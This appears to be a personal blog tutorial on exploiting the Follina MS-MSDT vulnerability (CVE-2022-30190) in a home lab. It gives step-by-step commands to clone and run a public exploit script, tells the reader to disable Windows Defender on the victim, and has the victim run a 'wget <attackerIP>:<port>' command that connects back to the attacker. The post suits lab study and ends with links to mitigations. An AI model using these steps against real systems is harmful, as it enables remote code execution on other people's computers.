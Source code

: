 ```yaml
---
title:  "Zero-Day CVE-2022-30190 MS-MSDT Follina"
excerpt: "In this post I will show you the MS-MSDT Follina vulnerability (CVE-2022-30190)."
mathjax: true
layout: post
categories:
    -- github
    -- website
---
```


1 . Introduction
<br>
2 . My Setup
<br>
3 . Exploit in Action!
<br>
4 . Mitigations
<br>

---

## This post is designed to teach you how to exploit the CVE-2022-30190 MS-MSDT Follina vulnerability!

---

### 1. Introduction

*I want to give thanks and credit to **John Hammond** and his work with the Huntress team identifying and showing exactly how this vulnerability can be exploited! Check out his [Youtube](https://www.youtube.com/watch?v=dGCOhORNKRk&ab_channel=JohnHammond) or the Huntress [blog](https://www.huntress.com/blog/microsoft-office-remote-code-execution-follina-msdt-bug).*

- At the bottom of this blog post I have a short GIF showing the exploit in action.

- CVE-2022-30190 is a vulnerability that has been announced and unpatched for the past 2 days as of writing this article.

- The vulnerability takes advantage of the Microsoft Diagnostics Tool (MSDT) and other Microsoft utilities. 

- Basically, the attacker can send you a seemingly harmless word document, however, once you open the document (or even preview pane) the malicious remote code execution happens and the attacker has just infected your computer with a virus, a command and control access point, crypto coin miner, backdoor, etc. 

---

### 2. My Setup

For my attack computer, I ran kali Linux in VMWare Workstation 16 player using NAT and HOST virtualized ethernet adapters. [Kali](https://www.kali.org/get-kali/#kali-virtual-machines)

I ran my victim computer on an evaluation Windows 11 virtualized machine in VMWare Workstation 16 player using a HOST-Only virtualized ethernet adapter. [Windows 11 Evaluation](https://developer.microsoft.com/en-us/windows/downloads/virtual-machines/)

---

### 3. Exploit in Action!

John Hammond made the exploit accessible via his GitHub [here](https://github.com/JohnHammond/msdt-follina) as a simple python script that creates the malicious file, opens a listener, and hosts the malicious file.

**Before starting the exploit:**

You may have malware protection and defender services for your endpoint hosting these Virtual Machines. It may stop your virtual machines from transferring and running the python script. Therefore, at your discretion, you may need to turn off these services to see the functional exploit. 

*Proceed at your own risk*

**On Attack Device**


    Step 1: 

    git clone https://github.com/JohnHammond/msdt-follina.git

    Step 2:
    python3 Follina.py -r <port number of choice>

**On victim**

    Step 3: Disable Windows Defender Real-Time Protection
![realtime](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/real-time.PNG)

    Step 4: Open Powershell

    Step 5:
    wget <attackerIP>:<port chosen in step 2>

You should have seen the Microsoft Diagnostics Tool load, and then you received connection at your listener on the attacking computer. 

**Thats it! You are in!**

![gif](https://github.com/matthewomccorkle/matthewomccorkle.github.io/blob/a6f21de03fffc6c24b07f22c5f507cfe2e364aa4/_posts/assets/follina.gif?raw=true)

### 4. Mitigations

See the current response from [Microsoft](https://msrc-blog.microsoft.com/2022/05/30/guidance-for-cve-2022-30190-microsoft-support-diagnostic-tool-vulnerability/) on how to mitigate the issue until a patch is released. 